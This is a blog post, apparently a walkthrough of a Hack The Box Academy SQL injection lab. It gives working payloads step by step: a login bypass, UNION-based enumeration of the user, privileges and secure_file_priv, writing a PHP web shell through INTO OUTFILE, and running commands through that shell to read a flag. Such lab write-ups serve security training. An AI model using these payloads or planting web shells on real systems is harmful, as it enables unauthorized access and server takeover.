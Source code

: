 ```yaml
---
layout: post
title:  "Hack The Box - Academy - SQL Injection Fundamentals"
description: "Master the basics of SQL injection with the Hack The Box - Academy - SQL Injection Fundamentals. Learn how to detect and exploit SQL vulnerabilities, enhancing your penetration testing skills with expert insights from Zwarts Sec."
date:   2024-10-03 20:25
image:  /images/htb/sql-injection/logo.png
tags:   [sqli,cbbh]
categories: [htbacademy]
---
```


><b>Overview:</b>
 Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.
<br/>
<a href="https://academy.hackthebox.com/module/33/section/193">Introduction to SQL Injection</a>

<br/>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/33/section/177">SQL Injection Fundamentals</a><br/>
<a href="https://jacozwarts.github.io/images/htb/sql-injection/Sql_Injection_Fundamentals_Module_Cheat_Sheet.pdf">SQL Injection - Cheat Sheet</a>
<br/>


## Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

#### 1. Bypassing the Login Page with SQL Injection
Begin by visiting the web application's login page. To bypass authentication, input the following SQL injection payload in the username field:
```
' OR 1=1 -- -
```
![Login Page](/images/htb/sql-injection//login.png)
This payload effectively bypasses the login check, granting us access to the application without valid credentials.

#### 2. Testing for SQL Injection in the Search Bar
After logging in, navigate to the Payroll information section and locate the search bar. We can test for SQL injection vulnerabilities by submitting the following payload:
![Payroll Information page](/images/htb/sql-injection/payroll_info_table.png)
```
' ORDER BY 1 -- -
```
![Test for SQL Injection](/images/htb/sql-injection/orderby_test.png)
If the page loads successfully without errors, it suggests the search bar is vulnerable to SQL injection. Now, we’ll proceed to determine the number of columns in the underlying query.

#### 3. Determining the Column Count
To identify the column count for the SQL query, increment the ORDER BY number until an error is returned. When an error occurs, reduce the count by one—this gives you the number of columns in the query.
![Column Count](/images/htb/sql-injection/orderby6.png)
![Column Count](/images/htb/sql-injection/orderby6-result.png)
#### 4. Identifying the Current User
With knowledge of the column count, we can perform an In-Band Union-Based SQL injection to retrieve key information, such as the current user:
```
' UNION SELECT 1,2,user(),3,4 -- -
```
![Current User](/images/htb/sql-injection/currentuser.png)

#### 5. Checking User Privileges
To explore the privileges granted to the current user, use the following query:
```
' UNION SELECT 1, grantee, privilege_type,is_grantable,3 FROM information_schema.user_privileges
WHERE grantee="'root'@'localhost'"-- -
```
![User Privileges](/images/htb/sql-injection/user_privileges.png)
If the user has file permissions, we can proceed with attempting file operations.

#### 6. Accessing MySQL Directories
Next, check the directories accessible through MySQL by querying the secure_file_priv variable:
```
' UNION SELECT 1, variable_name, variable_value, 4,5
FROM information_schema.global_variables where
variable_name="secure_file_priv"-- -
```
![Secure File Priv](/images/htb/sql-injection/mysql_directory_access.png)

If the `SECURE_FILE_PRIV` value is empty, it indicates that file read/write operations can be performed anywhere on the system.

#### 7. Writing a Web Shell to the Server
We’ll now attempt to write a web shell to the server. Initially, try writing the shell to the default web directory:

![Webshell writing failed](/images/htb/sql-injection/write_permission_denied.png)
```
' UNION SELECT "",'<?php system($_REQUEST[0]); ?>',"", "","" into outfile '/var/www/html/shell.php'-- -
```
If permission is denied, update the file path to target a different directory, such as the dashboard directory (Payroll Information URL is /dashboard/dashboard.php):

```
' UNION SELECT "",'<?php system($_REQUEST[0]); ?>',"", "","" into outfile '/var/www/html/dashboard/shell.php'-- -
```
#### 8. Testing the Web Shell
Once the web shell is successfully written, test it by navigating to the URL:
![Testing web shell](/images/htb/sql-injection/webshell-executed.png)
```
{TARGET_IP}:{TARGET_PORT}/dashboard/shell.php?0=ls
```
This command list all files in the directory, confirming that the web shell is working.

#### 9. Retrieving the Flag
Enumerate the directories to locate the flag. Once found, use the cat command to display its contents:
```
http://{TARGET_IP}:{TARGET_PORT}/dashboard/shell.php?0=cat%20../../../../flag_cae1dadcd174.txt
```
![Flag result](/images/htb/sql-injection/flag_result.png)
<br/>
Submit the contents of the flag as the answer to complete the challenge.
<hr/>
